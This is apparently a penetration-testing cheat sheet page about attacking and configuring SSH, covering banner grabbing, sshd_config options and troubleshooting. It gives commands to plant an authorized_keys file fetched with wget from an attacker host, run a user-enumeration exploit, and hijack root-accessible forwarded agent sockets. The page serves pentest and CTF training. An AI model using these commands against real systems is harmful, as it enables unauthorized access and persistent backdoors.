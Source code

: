 # 22 - SSH

## Theory

SSH, or **Secure Shell** or Secure Socket Shell, is a network protocol that provides users with a secure way to access a computer over an unsecured network.

{% hint style="success" %}
Attempt a SSH connection blindly (if we do not find any vulnerability) because sometimes we get a banner and we can get some information.
{% endhint %}

## Practice

### [Authentication](../general/lateral-movement/remote-services.md#ssh-lateral-movement)

### Banner grabbing

```bash
nc -vn <IP> 22
```

### SSH keys

For authentication with SSH keys, we can do it in 2 ways:

{% tabs %}
{% tab title="Way #1" %}
Create **SSH keys** on the compromised machine:

```bash
ssh-keygen # "Enter" all the time.
```

Rename the public key to "**authorized\_keys**":

```bash
mv id_rsa-pub authorized_keys
```

We copy the **id\_rsa** (private key) from the compromised machine to our system, and use it to authenticate:

```bash
ssh -i id_rsa <USERNAME>@<IP>
```
{% endtab %}

{% tab title="Way #2" %}
Create the **SSH keys** on our system:

```bash
ssh-keygen # "Enter" all the time.
```

We rename the file **id\_rsa.pub** (public key) to "**authorized\_keys**" and **transfer** it to the compromised machine, in the path `~/.ssh/authorized_keys`:

```bash
# On our attacking machine:
mv id_rsa.pub authorized_keys
sudo python3 -m http.server 80
# On the compromised machine:
wget http://<LHOST>/authorized_keys -O ~/.ssh/authorized_keys
```
{% endtab %}
{% endtabs %}

### Execute commands

```bash
# Spawn bash:
ssh <USER>@<IP> "<COMMAND>" 
ssh <USER>@<IP> -t "bash -l"
# Do not load the .bashrc file.
ssh <USER>@<IP> -f 'mv .bashrc .bashrc_bk; exit'
ssh <USER>@<IP> 'bash --norc'
```

### Fingerprint

#### How to check if SSH keys are valid with each other?

Sometimes, when we compromise a machine, we get the **authorized\_keys** (public key) and the **id\_rsa** (private key). However, **these keys may be unrelated**. To **verify** them, we **need both keys** and perform the following **commands**:

```bash
ssh-keygen -l -f authorized_keys
ssh-keygen -l -f id_rsa
```

If we see the same, both are related and it may be another factor why it is not letting us log in, such as restricted users in the **sshd\_config** file, etc. If they are not the same, you will have to look for other keys that are related or forget about that input vector.

#### SSH `from` directive

Specifies that in addition to public key authentication, the canonical name of the remote host or its IP address must be present in the comma-separated list of patterns. Example of an **authorized\_keys** with this directive:

```bash
from="*.example.test.com" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6C
cwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a
XQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP
/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewP
cafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1
tcJSPEn7WOD test@xd
```

In this case, it is from a domain, that we could try to add it with [nsupdate](53-dns/attack-techniques/dynamic-updates.md).

#### Weak public key

If the public key is weak, we can try to recover the private key with the following tool: [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)

#### Decrypt with private key

If we have a file that is encrypted with the private key (RSA), we can use openssl to decrypt it (if we have the key):

```
openssl rsautl -decrypt -inkey <PRIVATE_KEY> -in <ENCRYPT_FILE>
```

### Username enumeration

In some versions of OpenSSH you can do a timing attack to enumerate users. You can use a Python script or use a Metasploit module to exploit this:

```bash
# Metasploit
use scanner/ssh/ssh_enumusers
# Python script:
searchsploit -m linux/remote/45939.py
python 45939.py <IP> <USERNAME>
```

### SSH config files

```bash
ssh_config, sshd_config, authorized_keys, ssh_known_hosts, .shosts
```

{% hint style="danger" %}
Examining the `/etc/ssh/sshd_config` file is very important, as you can see the port on which you listen (usually port 22), the users that are allowed to log in via SSH (AllowUsers property), whether you allow login with root (PermitRootLogin), etc.
{% endhint %}

### Update SSH configuration

If we make a change to the sshd\_config file, we need to restart the SSH service to update it:

```
sudo systemctl restart sshd
```

### SSH Interesting configuration values (sshd\_config)

#### Port

The port that the SSH service is listening on. Ex: `Port 22`

**PasswordAuthentication**

Specifies whether password authentication is allowed. The default is `no`.

#### **PubkeyAuthentication**

Specifies whether public key authentication is allowed. The default is `yes`.

#### **PermitEmptyPasswords**

When password authentication is allowed, it specifies whether the server allows login to accounts with empty password strings. The default is `no`.

#### Root login

Specifies whether root can log in using ssh, default is `no`. Other values:

* `yes` : root can login using password and private key
* `without-password` or `prohibit-password`: root can only login with private key
* `forced-commands-only`: Root can login only using privatekey cand if the commands options is specified

#### AuthorizedKeysFile

Specifies files that contains the public keys that can be used for user authentication. I can contains tokens like `%h` , that will be replaced by the home directory. **You can indicate absolute paths** (starting in `/`) or **relative paths from the users home**. For example:

```bash
AuthorizedKeysFile    .ssh/authorized_keys access_granted
```

That setting will indicate that if you try to log in with the private key of any user (example: test\_user), SSH will compare the public key of your key with those located in `/home/test_user/.ssh/authorized_keys` and `/home/test_user/access_granted`.

### SSH Forward Agent exploitation

What can you do if you discover inside the `/etc/ssh_config` or inside `$HOME/.ssh/config` configuration this:

```
ForwardAgent yes
```

If you are root inside the machine you can probably **access any ssh connection made by any agent** that you can find in the __ `/tmp` directory:

```bash
ls -la /tmp
ls -la /tmp/ssh-haqzR16816
SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh test@10.10.10.10
```

## Troubleshooting

### Key exchange/encryption/host key (No matching)

```bash
# No matching key exchange method found:
ssh <IP> -oKexAlgorithms=+<KEY_EXCHANGE>
# No matching cipher found (with key exchange):
ssh <IP> -oKexAlgorithms=+<KEY_EXCHANGE> -c <CIPHER>
# No matching host key type found:
ssh <IP> -oHostKeyAlgorithms=+<HOST_KEY_TYPE>
```

### Problem in ssh2john

If we get the following message....:

```bash
AttributeError: module 'base64' has no attribute 'decodestring'
```

... we can solve this by editing a line in the **ssh2john** script:

![](../.gitbook/assets/ssh2john\_solved\_problem.png)

